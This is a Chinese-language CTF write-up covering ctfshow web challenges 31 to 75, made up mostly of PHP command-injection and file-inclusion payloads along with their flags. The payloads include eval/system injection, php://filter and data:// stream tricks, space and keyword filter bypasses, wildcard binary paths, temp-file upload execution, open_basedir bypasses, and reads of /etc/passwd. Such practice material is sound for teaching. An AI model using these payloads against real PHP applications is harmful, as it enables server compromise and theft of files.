








Web31
?c=eval($_GET[a]);&a=system(‘cat flag.php’);

我们相当于在if这个条件里面添加了一个新的参数a，然后通过这个参数a进行操作
理解过程，我们先传进去了?c=eval($_GET[a]);，这串代码成功地执行了，并且跳出了if和else函数，然后在调用参数a，&a=system(‘cat flag.php’);
各种payload：
?c=echo(tac%09f*);
?c=echo(tail%09f*);
需要查看源码：
?c=echo(nl%09f*);
?c=echo(less%09f*);
?c=echo(more%09f*);
…
见下绕过方法
ctfshow{15b00389-8276-40c6-a865-92ae407d30e4}
空格绕过
%09 符号需要php环境
{cat,flag.txt}
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
kg=$‘\x20flag.txt’&&cat$kg
(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过)
cat过滤
more:一页一页的显示档案内容
less:与 more 类似。但在用 more 时候可能不能向上翻页，不能向上搜索指定字符串，而 less 却可以自由的向上向下翻页，也可以自由的向上向下搜索指定字符串。
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：命令的作用和 cat -n 类似，是将文件内容全部显示在屏幕上，并且是从第一行开始显示，同时会自动打印出行号。
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容。可以利用报错将文件内容带出来（-f<名称文件> 指定名称文件，其内容有一个或多个文件名称时，让file依序辨识这些文件，格式为每列一个文件名称。）
来源：https://blog.csdn.net/qq_49480008/article/details/113177878
Web32
?c=include%0a$_GET[a]?>&a=system(‘cat flag.php’);
%0a是换行符url编码
include是 PHP 中的一个语句，用于将指定文件包含到当前 PHP 文件中
?c=include%0a$_GET[a]?>&a=flag.php
这个由于前面没有分号，不能正常输出
最终正确payload：
?c=include%0a$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
或者：
?c=include"$_GET[url]"?>&url=php://filter/read=convert.base64-encode/resource=flag.php
%0a和""的区别还需考量
文件包含，可以直接用插件写，后面加上文件，最后解码
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0wNCAwMDo0OToxOQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDQgMDA6NDk6MjYNCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KJGZsYWc9ImN0ZnNob3d7NDg3MjQ5NmUtNDdkYy00M2E3LTkyYzItZDJmNjRhMzQxNjU3fSI7DQo
ctfshow{4872496e-47dc-43a7-92c2-d2f64a341657}
php无需括号的函数
echo 123;
print 123;
die;
include “/etc/passwd”;
require “/etc/passwd”;
include_once “/etc/passwd”;
require_once “etc/passwd”;
Web33
?c=require"$_GET[a]"?>&a=php://filter/convert.base64-encode/resource=flag.php
ctfshow{9e4bb5c3-42bd-4f47-be4b-eb8cd78f7319}
?c=require"$_GET[a]"?>&a=php://filter/convert.base64-encode/resource=flag.php
和
?c=require"$_GET[a]"?>&a=php://filter/convert.base64-encode/resource=flag.php
的区别是：有引号，优先执行
Web34
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
ctfshow{e5e97ce9-f824-476c-bb46-97fd0fa94d55}
Web35
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
ctfshow{c0c4ecbe-0caf-4c5a-969b-1db575e377d1}
Web36
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
ctfshow{5dc7f14c-82ab-419a-8a07-54f76fbcee7b}
Web37

他在里面又套了一个include，并且过滤了flag
那我们的
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
就失效了
新方法：
?c=data://text/plain,
ctfshow{0b8aa5cc-30a5-48bc-89e6-eca36f2c77bd}
data://，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行
伪协议的一种
Web38
题目里面过滤了php，所以?c=data://text/plain,就不行了，因为里面有php，我们可以把php换成等号=，短标签
?c=data://text/plain,
另外一个办法
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJubCBmbGFnLnBocCAiKTs/Pg== //
Tac和ni都可以但是cat就不行，为啥，
ctfshow{76f2194a-afc2-40bd-b338-9010ea69bbe3}
Web39

他在后面又加了一个.php没有用，因为我们已经用?>合并了php代码
?c=data://text/plain,
他在后面加了.php那后面应该会报错，但是不影响我们拿flag
ctfshow{20616819-94c2-4f03-b3a8-d8bc1cb4042d}
Web40
函数 localeconv() 会返回一个包含本地环境信息的数组
pos()和 current()是等价的函数，它们会返回数组的当前元素
对于 localeconv()函数返回的数组，使用 pos(localeconv()) 通常会返回该数组的第一个元素的值，如果这个元素是点则返回点，如果是flag则返回flag
scandir()函数用于扫描指定目录的文件和目录，由于 pos(localeconv()) 可能返回 点，所以 scandir(pos(localeconv())) 等价于scandir(“.”)。
scandir(“.”)会返回一个包含当前目录下所有文件和目录名称的数组
array_reverse()函数将数组中的元素顺序反转。例如，对于 array(‘.’, ‘…’, ‘index.php’, ‘config.php’, ‘images’)，会变成 array(‘images’, ‘config.php’, ‘index.php’, ‘…’, ‘.’)。
next()函数将数组的内部指针向前移动一个位置，并返回新位置的元素。
对于 array_reverse(scandir(pos(localeconv()))) 结果，它会跳过第一个元素（例如 images），返回下一个元素（例如 config.php）。
show_source() 函数用于显示指定 PHP 文件的源代码，会高亮显示文件内容。
最终
payload?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
ctfshow{231f7098-5080-450c-9cb1-454610f590e7}
另一种方法，但好像不可以拿到flag
c=session_start();system(session_id());
Cookie=PHPSESSID=ls
web41
这道题没得说
真服了，字母数字都禁了。还要脚本
web42
>/dev/null 2>&1
可以将/dev/null看作"黑洞". 它非常等价于一个只写文件. 所有写入它的内容都会永远丢失. 而尝试从它那儿读取内容则什么也读不到. 然而, /dev/null对命令行和脚本都非常的有用.
2和1与错误输出和标准输入有关
总之就是不进行回显
那么题目里面又给了一个sys，并在里面把我们的回显给噶了
那么我们在一个sys里面能否执行多个指令？
这就需要命令分割了
1 | ; //分号 |
?c=cat flag.php ||
?c=cat flag.php ;
使用&&或者&也可以，但是要对其进行url编码
?c=tac flag.php %26%26
ctfshow{631405df-72b0-4dab-aa64-f95c49f4924a}
web43
没有过滤||
?c=tac flag.php ||
ctfshow{d4f5849a-36c4-4026-a1b4-a2fed591d86a}
web44
cat绕过+通配符+命令分隔
?c=tac fl* ||
ctfshow{28d36c8d-f2cf-4c1d-bc7f-33d2270a8dd3}
web45
cat、空格绕过+通配符+命令分隔
这里tac也不行了
这里空格过滤指过滤了“ ”和“%20”
?c=nl%09fla*||
ctfshow{0d3c9cea-3c56-4439-b8cd-bf30b77b3b3f}
web46
过滤了数字，但是%09不属于数字
?c=tac%09fla?.php||
ctfshow{44400151-8bf6-4fe7-b2f1-647b96b0b8a8}
web47
/?c=nl%09fla?.php||
ctfshow{98523018-46d3-48c2-8baa-b4043f0ebf07}
web48
?c=tac%09fla?.php||
ctfshow{d022aafe-76da-4be9-867e-88322ce50ef9}
web49
?c=tac%09fla?.php||
ctfshow{89335b6d-8017-4792-a711-61a8b40d5ba9}
web50
<>与html编程有关，好像这里加一个这个可以弄出来一个空格
反斜杠\是转义字符。在 fla\g.php 中，可能是试图将 g 转义，使得 fla\g.php 不会被当作一个整体，而被解释为 fla 和 g.php
''也没有什么含义，就是绕过了flag过滤
?c=tac<>fla\g.php||
?c=tac<>fla’'g.php||
ctfshow{e6f38678-4786-4b07-8c0c-c0afeb267603}
web51
题目把tac噶了
?c=nl<>fla’'g.php||
ctfshow{e43bd801-f9f9-4c0a-a0b8-235be559465b}
web52
?c=nl${IFS}fla’'g.php||
flag竟然是假的
看看根目录
?c=ls${IFS}/||
看到flag
?c=nl${IFS}/flag||
ctfshow{679e044a-5050-4f3b-847f-df73a21e1399}
web53
这里题目变了

?c=nl${IFS}fla\g.php
ctfshow{321965b6-59b8-4416-93b4-2d92b628f457}
web54
grep test *file 在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行
?c=grep${IFS}%27{ %27${IFS}fl???php
意思就是在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行
?c=mv${IFS}fla?.php${IFS}b.txt
使用mv时，flag.php将会被删除
进入/b.txt
ctfshow{49f89c5e-7c29-4adf-9077-e1ad0993f5ad}
web55
这题目真骚，payload更骚
?c=/???/???64%20???.???
| **bin目录:**bin为binary的简写主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等 |
|---|
这里我们可以利用 base64 中的64 进行通配符匹配 即 /bin/base64 flag.php
羽大佬的WP还有一种解法
如下：payload：?c=/???/???/???2 ???.??? 然后在url + /flag.php.bz2
| /usr/bin目录:主要放置一些应用软件工具的必备执行档例如c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome*、 zip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、 newaliases、nslookup passwd、quota、smb*、wget等。 |
|---|
我们可以利用/usr/bin下的bzip2
意思就是说我们先将flag.php文件进行压缩，然后再将其下载
ctfshow{1a3616a8-6ae4-4951-a6b3-5f0631c6279c}
web56
新知识，无post上传文件，我们可以创建窗口上传文件来运行脚本拿到flag
造一个post上传文件的数据包
在桌面创建post.html
1 |
|
再创建文件1.php
1 | #!/bin/sh |
shell程序必须以"#!/bin/sh"开始，#! /bin/sh 是指此脚本使用/bin/sh来解释执行，#!是特殊的表示符，其后面跟的是解释此脚本的shell的路径
打开post.html（注意里面的链接改为题目的链接）
上传1.php
用bp抓包
严格按照图片的格式，好像是不等多一行，空白也不行。
然后发送多次，就可以了
之后改成cat flag.php就可以了
1 | ?c=.%20/???/????????[@-[ |
1.php就是我们上传的可控的文件，我们传的参数c的值为 . /bin/phpXXXXXX，意思就是说匹配上传1.php文件所生成的临时文件，并执行之

ctfshow{a3f7bc05-69a7-40af-9510-22fa6996596
web57
flag在36.php，并且在sys里面已经把命令和后缀给我们了，直接搞出来36就行了

算术扩展（Arithmetic Expansion）运算
1 | # 输出 5 |
~代表取反
1 | # 以下是更详细的代码示例，对0取反，就是对0的二进制，0进行取反，取反后为-1 |
算出36
1 |
|
那么
?c=$((~$(($((~$(())+$((~$(())))+$((~$(())))+$((~$(())))$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))$((~$(())))+$((~$(())))+$((~$(())))))))))
如果过滤了加号+
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
ctfshow{3c196564-646f-4120-ae93-1d9f372db21d}
web58-65
存在禁用函数，需要各种函数都试试
post
1.c=echo highlight_file(‘flag.php’);
2.c=show_source(“flag.php”);
3.c=highlight_file(“flag.php”);这个应该算是通杀啊，因为在源码就是通过这个函数来显示的，就在else里面highlight_file
4.c=echo file_get_contents(‘flag.php’);
5.c=include(‘flag.php’);echo $flag;
为什么$flag?这是一个变量，相当于我们在java当中int flag = 123456789，然后通过system.out.print(a);打印出来a，也就是123456789这几个赋值给a的数字
之前拿flag不是会进去源码看吗？
里面会有这样的一行代码
1 | $flag="ctfshow{a24e6a78-ca48-41ea-8099-904edab2b001}"; |
6.文件包含相当于咱们学的Java引入一个数据库，然后通过查看什么东西就可以拿到咱们引入的文件的内容
那么我们c=include(‘falg.php’);var_dump(get_defined_vars());
var_dump(get_defined_vars());是拿到所有的注册变量，然后通过var_dump()输出所有变量
7.post里面用一个文件包含，传上去一个a
在url后面加一个?a=php://filter/convert.base64-encode/resource=flag.php

ctfshow{6392df6a-91bd-4704-9398-b7cd00e15aaf}
8.c=rename(‘flag.php’,‘1.txt’)然后进入1.txt查看
9.c=show_source(next(array_reverse(scandir(‘.’))));
web66
这题终于不一样了(其实就是flag换地方了)，我们用上述方法找不到flag
我们先扫描目录
c=print_r(scadir(‘/’));
发现flag.txt
c=highlight_file(‘/flag.txt’);
进去
web67
这道题用正常思路，不猜flag在那个文件
先扫描目录，发现我们之前用的print_r()函数被禁掉了，用var_dump()函数来代替
| print_r()输出[name] => John |
|---|
| var_dump()输出[“name”]=> string(4) “John”。 |
var_dump() 更侧重于变量的详细信息，而 print_r() 更侧重于变量的结构和易读性。就如把name的类型打印出来（String类型，4个字符） |
c=highlight_file(‘/flag.txt’);
ctfshow{32ceca18-433a-441a-90c3-d9038047ef44}
web68
这道题通杀答案highlight_file()被噶了
通过扫描目录，还是在txt里面，应该是变量输出啊应该，要不然以现有知识应该搞不出来
c=include(‘/flag.txt’);这里不用echo，否则flag下面会出现一行报错（不影响我们拿flag）
为什么不用echo？
因为flag.txt里面没有php标签**<?php...?>**，然后我们通过html打开了他，他默认会输出内容
ctfshow{882c2f13-b515-413e-8857-67c1005072f4}
web69
这一题var_dump()也被禁掉了，用var_export()代替
1 | 'name' => 'John' |
与var_dump的区别就是数组的话用建值来显示
1 | 0 => 'reading', |
c=include(‘/flag.txt’);
ctfshow{2e64a68d-2b05-46ba-9bb6-0df1ea8145b6}
web70
同web69
但是这道题进去的页面提醒我了error_reporting()、ini_set()是不是也可以拿到flag？
然后再插进去一个知识scandir()如果被禁用了，用glob()代替
ctfshow{5b059330-5c9e-43f5-86ce-d8e59c3ee207}
web71
c=var_export(scandir(‘/’));扫描出来个emmm

六百六十六，演都不演了
对了，还给有附件了
1 | <?php |
ob_get_contents()：得到缓冲区的内容（数据）。
ob_end_clean()：会清除缓冲区的内容，并将缓冲区关闭，但不会输出内容。
preg_replace(“/[0-9]|[a-z]/i”,“?”,$s)：把存放缓冲区内容的变量$s的内容都替换为问号。用之前payload发现输出的一大堆问号，就是因为这句话。
方法一：wp:其人之道还之其人之身
c=include(“/flag.txt”);$ss=ob_get_contents();ob_end_clean();echo $ss;
方法二：当执行完eval()之后就结束代码进程
c=include(‘/flag.txt’);exit();
c=include(‘/flag.txt’);die();
ctfshow{d7a57ee7-b124-4ca2-b99d-2fa14ac563d1}
web72
源码不变
web71的方法不行了
我们var_export(scandir(‘/’));die();读取不了目录
open_basedir()函数限制了php能够操作的目录，在后面说明了限制在的操作的目录/var/www/html/
这时我们可以用到glob()函数，此函数属于伪协议的一种。
glob伪协议在筛选目录时不受open_basedir制约
1 | c=?><?php $a=new DirectoryIterator("glob:///*"); |
不管了，这道题还需要分析大佬的脚本，贼jb长，老婆娘的裹脚布，又臭又长
web73
正常走流程
知识文件名变了
ctfshow{6020494c-3f4c-42d3-9c23-0b540119fb20}
web74
scandir()被禁用了
c=var_export(glob(‘/*’));die();
c=include(‘/flagx.txt’);die();
web75
利用mysql的load_file读文件，绕过open_basedir 限制。（只限制了PHP的访问目录，不关MYSQL的事情）
1 | c= |
不写了，后面的都太麻烦了，集中一下关键词了
fuzz、
c了，为什么这么不爽，后面这么难，
总结
1.空格绕过
1 | %09 符号需要php环境 |
2.cat过滤
1 | more:一页一页的显示档案内容 |
3.php无需括号的函数
1 | echo 123; |
4.?>符号相当于和前面的<?php对应了，然后后面的代码会在空间外执行
| ?c=require$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php |
|---|
| 和 |
| ?c=require"$_GET[a]"?>&a=php://filter/convert.base64-encode/resource=flag.php |
| 的区别是：有引号，优先执行 |
6.文件包含时，如果题目源码当中又出现了一个包含函数(web37)，那么我们可以用data
1 | ?c=data://text/plain,<?php system('cat fla*');?> |
文件包含相当于咱们学的Java引入一个数据库，然后通过查看什么东西就可以拿到咱们引入的文件的内容
7.如6.当中的代码，如果题目过滤了php，我们可以将<?php换成<?=
1 | ?c=data://text/plain,<?= system('cat fla*');?> |
或者我们将后面的进行base64编码，不能用cat
1 | ?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJubCBmbGFnLnBocCAiKTs/Pg== # <?php system("nl flag.php ");?> |
| localeconv() 函数会返回一个包含本地环境信息的数组 |
|---|
| **pos()**和 **current()**是等价的函数，它们会返回数组的当前元素。对于 localeconv()函数返回的数组，使用 pos(localeconv()) 通常会返回该数组的第一个元素的值，如果这个元素是点则返回点，如果是flag则返回flag这四个字符 |
| **scandir()**函数用于扫描指定目录的文件和目录，由于 pos(localeconv()) 可能返回点，所以 scandir(pos(localeconv())) 等价于scandir(“.”)。 |
| scandir(“.”)会返回一个包含当前目录下所有文件和目录名称的数组 |
| **array_reverse()**函数将数组中的元素顺序反转。例如，对于 array(‘.’, ‘…’, ‘index.php’, ‘config.php’, ‘images’)，会变成 array(‘images’, ‘config.php’, ‘index.php’, ‘…’, ‘.’)。 |
| next()函数将数组的内部指针向前移动一个位置，并返回新位置的元素。 |
| 对于 array_reverse(scandir(pos(localeconv()))) 结果，它会跳过第一个元素（例如 images），返回下一个元素（例如 config.php）。 |
| show_source() 函数用于显示指定 PHP 文件的源代码，会高亮显示文件内容。 |
12.>/dev/null 2>&1可以将/dev/null看作"黑洞". 它非常等价于一个只写文件. 所有写入它的内容都会永远丢失. 而尝试从它那儿读取内容则什么也读不到. 然而, /dev/null对命令行和脚本都非常的有用.
13.命令分割
1 | ; //分号 |
14.空格过滤指过滤了“ ”和“%20”
15.过滤了数字，但是%09不属于数字.%09 表示水平制表符（Tab）的编码形式。相当于空格
16.**<>**与html编程有关，这个好像可以弄出来一个空格
17.反斜杠\是转义字符。在 fla\g.php 中，可能是试图将 g 转义，使得 fla\g.php 不会被当作一个整体，而被解释为 fla 和 g.php，如果cat被过滤，ca\t可以绕过。
18.**‘’**两个双引号同\一样
19.grep test *file在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行
1 | ?c=grep ''{' flag.php |
意思就是在 flag.php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行
1 | ?c=grep ''ctfshow flag.php |
意思就是在 flag.php匹配到的文件中，查找含有{的文件，并打印出包含 ctfshow的这一行
1 | ?c=mv fla?.php b.txt |
将flag.php移动到b.txt
使用mv时，flag.php将会被删除
21.**bin目录:**bin为binary的简写主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等.web55
22./usr/bin目录:主要放置一些应用软件工具的必备执行档例如c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome*、 zip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、 newaliases、nslookup passwd、quota、smb*、wget等。web55
23.造一个post上传文件的数据包web56
24.算术扩展（Arithmetic Expansion）运算web57
25.php标签<?php...?>
26.结束代码进程exit();die();